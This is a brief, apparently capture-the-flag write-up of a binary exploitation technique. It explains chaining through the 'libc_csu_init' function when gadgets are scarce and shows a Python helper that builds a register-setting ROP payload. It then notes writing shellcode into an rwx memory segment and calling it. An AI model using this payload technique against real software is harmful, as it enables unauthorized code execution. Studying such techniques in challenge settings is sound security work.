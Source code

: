 # Exploit Works  
in challenge Binary, Due to insufficient gadgets in the binary, proceed to exploit via the 'libc_csu_init' function.  

'''python
def csu_init(func, arg1, arg2, arg3, returns):
	payload =  'A' * 8
	payload += p64(0)    # rbx
	payload += p64(1)    # rbp
	payload += p64(func) # r12
	payload += p64(arg1) # r13
	payload += p64(arg2) # r14
	payload += p64(arg3) # r15
	payload += p64(returns) # rip
	return payload
'''  

and write Shellcodes in rwx segment (0x601000-0x602000), call it
